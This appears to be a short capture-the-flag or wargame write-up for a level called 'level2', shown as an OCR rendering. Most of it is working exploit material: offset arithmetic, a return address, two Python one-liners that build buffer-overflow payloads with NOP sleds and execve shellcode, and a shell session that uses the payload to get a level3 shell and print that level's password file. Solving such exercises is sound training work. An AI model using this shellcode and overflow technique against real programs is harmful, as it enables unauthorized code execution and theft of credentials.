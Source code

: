# level2

ret pointer offset += 88 off $esp

# not working
noop | payload | noop | addr
30 + 34 + 16 + 8 = 88

addr = 0xbffff6fc

python -c 'print("\x90"*30 + "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x0e\x30\x01\x90\x49\x1a\x92\x1a\x08\x27\xc2\x51\x03\x37\x01\xdf\x2f\x62\x69\x6e\x2f\x2f\x73\x68" + "\x90"*16 + "\xfc\xf6\xff\xbf")'


# working hopefully
noop | payload | noop | addr
30 + 21 + 29 + 8

strdup return address = 0x804a008

python -c 'print("\x90"*30 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*29 + "\x08\xa0\x04\x08")'


```sh
$> python -c 'print("\x90"*30 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*29 + "\x08\xa0\x04\x08")' > /tmp/payload

$> cat /tmp/payload - | ./level2
$ whoami
level3
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
